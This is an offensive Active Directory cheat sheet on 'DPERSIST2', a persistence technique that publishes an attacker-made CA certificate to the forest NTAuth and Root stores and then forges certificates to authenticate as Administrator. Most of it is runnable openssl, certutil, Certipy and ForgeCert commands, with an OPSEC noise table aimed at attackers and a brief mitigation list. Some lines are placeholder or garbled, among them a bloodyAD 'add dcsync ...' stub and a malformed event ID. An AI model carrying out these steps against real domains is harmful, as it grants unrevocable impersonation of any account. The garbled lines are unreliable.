

# DPERSIST2 — Rogue CA Certificate (NTAuth Injection)

## Quick Reference

| Field | Value |
|-------|-------|
| **Category** | Domain Persistence |
| **Difficulty** | High |
| **Pre-requisites** | Write to the `NTAuthCertificates` object (Enterprise Admin, or WriteDACL on the PKI config container) |
| **Tools** | Certipy (`forge`), certutil, ForgeCert |
| **OPSEC Noise** | Medium — one AD write, then silent offline forgery |
| **One-liner** | Add your **own** attacker-generated CA certificate to the forest's `NTAuthCertificates` store, then forge and sign authentication certificates for **any** principal, indefinitely. |

***

## What Is DPERSIST2?

The forest trusts any certificate chaining to a CA published in the **`NTAuthCertificates`** object for domain authentication. Normally that list holds only the org's real CAs. If you can **write your own self-signed CA cert into that list** (and the Root store), your rogue CA becomes trusted forest-wide. You then sign auth certs for anyone offline — the real CA never sees them, so they **cannot be revoked** and persist until your rogue CA cert is removed or expires (default ~5 years).

This differs from DPERSIST1 (which steals the *existing* CA key). Here you introduce a *new* trusted CA.



***

## Step 1 — Generate a Rogue CA

```bash
# Certipy can generate a CA cert + key for forging
certipy-ad ca -backup ...        # (if extracting an existing one)
# or craft a self-signed CA with openssl
openssl req -x509 -newkey rsa:2048 -keyout rogue-ca.key -out rogue-ca.crt \
  -days 1825 -nodes -subj "/CN=Rogue-CA"
openssl pkcs12 -export -inkey rogue-ca.key -in rogue-ca.crt -out rogue-ca.pfx -passout pass:
```

***

## Step 2 — Publish It as Trusted (requires high privilege)

```powershell
# Add the rogue CA to the forest NTAuth store (Enterprise Admin)
certutil.exe -dspublish -f rogue-ca.crt NTAuthCA

# Also add to the Root store so the chain validates
certutil.exe -dspublish -f rogue-ca.crt RootCA
```

```bash
# Linked writes can also be done over LDAP with the right rights (e.g. bloodyAD)
bloodyAD -u admin -p pass -d domain.htb --host $TARGET \
  add dcsync ...   # example of the privileged-write tooling class
```

***

## Step 3 — Forge Certs for Anyone

```bash
certipy-ad forge \
  -ca-pfx rogue-ca.pfx \
  -upn 'administrator@domain.htb' \
  -subject 'CN=Administrator,CN=Users,DC=domain,DC=htb' \
  -out admin_forged.pfx

certipy-ad auth -pfx admin_forged.pfx -dc-ip $TARGET   # PKINIT as Administrator
```

```powershell
# Windows: ForgeCert
ForgeCert.exe --CaCertPath rogue-ca.pfx --CaCertPassword "" \
  --Subject "CN=User" --SubjectAltName "administrator@domain.htb" \
  --NewCertPath admin.pfx --NewCertPassword ""
```

***

## OPSEC Considerations

| Action | Log | Noise |
| :-- | :-- | :-- |
| `certutil -dspublish` to NTAuth | AD object write; Event 4899/4im=config change | 🟡 Medium |
| Forged-cert PKINIT | Event 4768 — but cert chains to unknown CA | 🟡 Medium |

> [!warning] Loud in the right monitor
> Writes to `NTAuthCertificates` are rare and high-signal. Mature environments alert on any change to it.

***

## Mitigation

- Tightly restrict write access to `CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration`.
- Alert on **any** modification of the NTAuth store and Root CA store.
- Periodically baseline the trusted-CA list and investigate unknown CAs.

***

## See Also

- _ADCS Attack Methodology Guide · Golden Certificate Attack — DPERSIST1 · DPERSIST3 — Malicious Misconfiguration (ACL Backdoor)
- Sources: SpecterOps *Certified Pre-Owned*; [ForgeCert](https://github.com/GhostPack/ForgeCert); [The Hacker Recipes — Certificate authority](https://www.thehacker.recipes/ad/persistence/adcs/certificate-authority)
